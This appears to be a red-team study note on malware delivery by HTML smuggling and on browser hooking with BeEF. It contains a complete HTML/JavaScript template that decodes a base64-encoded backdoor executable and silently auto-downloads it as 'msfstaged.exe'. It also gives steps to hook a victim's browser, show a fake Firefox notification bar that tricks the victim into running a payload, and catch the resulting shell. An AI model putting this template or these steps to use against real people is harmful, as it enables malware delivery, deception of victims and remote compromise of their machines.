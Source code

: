 We usually use `Microsoft InkEdit Control`

# File smuggling with hmtl

Delivery is the pharse in which the attacket deliver the payload to the target
- Embedding malicous content within a HTML and JS element, encode and obfuscate
- Deliver through email or web
- Reconstruction and execute.

Example code ~ replace `file` with encoded payload

```html
<html>
  
  <body>
    <script>
      function base64ToArrayBuffer(base64) {
        let binary_string = window.atob(base64);
        var len = binary_string.length;
        var bytes = new Uint8Array(len);
        for (var i = 0; i < len; i++) {
          bytes[i] = binary_string.charCodeAt(i);
        }
        return bytes.buffer;
      }
      var file = '<backdoor.exe Base64 Encoded Value>'
      var data = base64ToArrayBuffer(file);
      var blob = new Blob([data], {
        type: 'octet/stream'
      });
      var fileName = 'msfstaged.exe';
      var a = document.createElement('a');
      document.body.appendChild(a);
      a.style = 'display: none';
      var url = window.URL.createObjectURL(blob);
      a.href = url;
      a.download = fileName;
      a.click();
      window.URL.revokeObjectURL(url);
    </script>
  </body>

</html>
```

## Establish shell through victim browser

- Start `BeEF` -> go to their login page `beef/password`
- Goto `/var/www/html` and delete `index.hmtl` -> replace with custom html
    - copy the Hook URL
    - creating the "index.html" file within the `/var/www/html`
    - `service apache2 start` Start web server
- Hook the browser of victim to our BeEF -> Create payload, set up multi handler and use social engineering feature in BeEF to lure victim to execute the payload.
    - We can create simple script to simulate user interaction
    - After interact, the hook should be create between victim browser and BeEF
- Set up payload and multi/handler
    - Utilize the "Fake Notification Bar (Firefox)" module to prompt the victim's browser with a notification to download the payload.
    - Execute the payload on the victim machine
